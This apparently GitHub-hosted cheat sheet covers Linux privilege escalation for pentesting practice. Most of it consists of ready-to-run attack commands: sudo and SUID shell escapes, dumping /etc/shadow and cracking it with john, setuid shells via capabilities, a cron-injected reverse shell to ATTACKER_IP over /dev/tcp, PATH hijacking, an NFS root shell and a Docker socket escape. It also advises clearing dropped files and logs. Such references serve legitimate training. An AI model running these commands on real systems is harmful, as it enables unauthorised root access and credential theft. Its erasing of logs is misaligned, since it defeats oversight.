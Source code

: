 ##  Linux Privilege Escalation Cheat Sheet

### 🗝️ Introduction

## 1️⃣ System Enumeration

🔍 **Baseline Checks**

```bash
hostname               # Hostname
uname -a               # Kernel & architecture
cat /proc/version      # Kernel build
cat /etc/issue         # OS info
```

🔍 **User & Env**

```bash
id                     # User & groups
env                    # Env variables
history                # Command history
```

🔍 **Network**

```bash
ip a / ifconfig        # Interfaces
ip route / netstat -rn # Routes
ss -tulpan             # Open ports/services
```

🔍 **Permissions & Special Bits**

```bash
find / -perm -4000 -type f -ls 2>/dev/null  # SUID
getcap -r / 2>/dev/null                     # Capabilities
```

🔍 **Scheduled Jobs**

```bash
cat /etc/crontab
ls -la /etc/cron.*/*
crontab -l
```

🔍 **Writable Places**

```bash
find / -writable -type d 2>/dev/null
```

---

## 2️⃣ Automated Enumeration

Use to speed up, **never trust blindly** — validate by hand:

- 🔹 **LinPEAS** – best all-rounder
    
- 🔹 **LinEnum** – structured
    
- 🔹 **LES** – kernel exploits
    
- 🔹 **Linux Smart Enumeration**
    
- 🔹 **linuxprivchecker**
    

```bash
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 3️⃣ Kernel Exploits

1. `uname -r` — get version
    
2. Search **CVE**, **searchsploit**, **Exploit-DB**
    
    ```bash
    searchsploit Linux Kernel <version>
    ```
    
3. Transfer exploit: `wget`, `scp`, `python3 -m http.server`
    
4. Compile & run:
    
    ```bash
    gcc exploit.c -o exploit && ./exploit
    ```
    
5. `whoami` → verify root
    

⚠️ **Danger:** Kernel exploits can crash a box — use only when safe.

---

## 4️⃣ Sudo Abuse

🔍 **List allowed commands:**

```bash
sudo -l
```

🔑 **GTFOBins Tricks**

- `find`:
    
    ```bash
    sudo find . -exec /bin/sh \\; -quit
    ```
    
- `vim`:
    
    ```bash
    sudo vim -c ':!sh'
    ```
    
- `less`, `nano`: similar `:!bash` or `^R^X` tricks.
    

✅ Always check [GTFOBins](https://gtfobins.github.io/).

---

## 5️⃣ SUID Binary Abuse

```bash
find / -perm -4000 -type f 2>/dev/null
```

Check unusual SUID binaries (`nmap`, `vim`, `find`):

```bash
nmap --interactive
!sh
```

Or dump shadow:

```bash
/usr/bin/base64 /etc/shadow > /tmp/shadow.b64
base64 -d /tmp/shadow.b64 > /tmp/shadow.txt

unshadow /etc/passwd /tmp/shadow.txt > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 6️⃣ File Capabilities

Show files with capabilities:

```bash
getcap -r / 2>/dev/null
```

If `cap_setuid`:

```bash
python3 -c 'import os; os.setuid(0); os.system(\"/bin/sh\")'
```

Or use `perl` GTFOBin:

```bash
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec \"/bin/sh\";'
```

---

## 7️⃣ Cron Job Abuse

Find writable cron scripts:

```bash
grep -R \"root\" /etc/cron* 2>/dev/null
```

If writable:

```bash
echo \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\" >> /root/cronjob.sh
nc -lvnp 4444
```

---

## 8️⃣ PATH Hijacking

If a root process calls a binary using relative PATH:

```bash
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```

When root runs `ls` → you get root shell.

---

## 9️⃣ NFS `no_root_squash`

Check `/etc/exports`:

```bash
cat /etc/exports
```

If `no_root_squash` → mount:

```bash
mount -o rw ATTACKER_IP:/share /mnt
echo -e '#!/bin/bash\\n/bin/bash' > /mnt/rootshell
chmod +x /mnt/rootshell
chown root:root /mnt/rootshell
chmod 4755 /mnt/rootshell
```

Run on target:

```bash
./rootshell
```

---

## 🔟 Other Useful Vectors

✅ **Sticky Bit Misconfigs:**  
Check `/tmp`:

```bash
ls -ld /tmp
# Should be drwxrwxrwt
```

If `t` is missing, any user can delete others’ files.

✅ **Weak SSH Keys:**

```bash
find / -name id_rsa 2>/dev/null
```

Try recovered private keys with:

```bash
ssh -i id_rsa user@host
```

✅ **Docker Socket:**

```bash
ls -l /var/run/docker.sock
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ **Kubernetes:**  
Check `/var/run/secrets/kubernetes.io/`.

✅ **Misconfigured Kernel Modules:**  
Look for `insmod` or custom modules with write access.

---

## ✔️ Key Takeaways

1️⃣ **Enum like crazy** — every privesc starts there.  
2️⃣ **Cross-check auto tools** by hand.  
3️⃣ **Use least-destructive first** (sudo, SUID, cron > kernel exploit).  
4️⃣ **Cover your tracks** — clean dropped files/logs.  
5️⃣ **Document everything** for your report.  
6️⃣ **Train constantly** — practice on THM, VulnHub, HackTheBox.

---
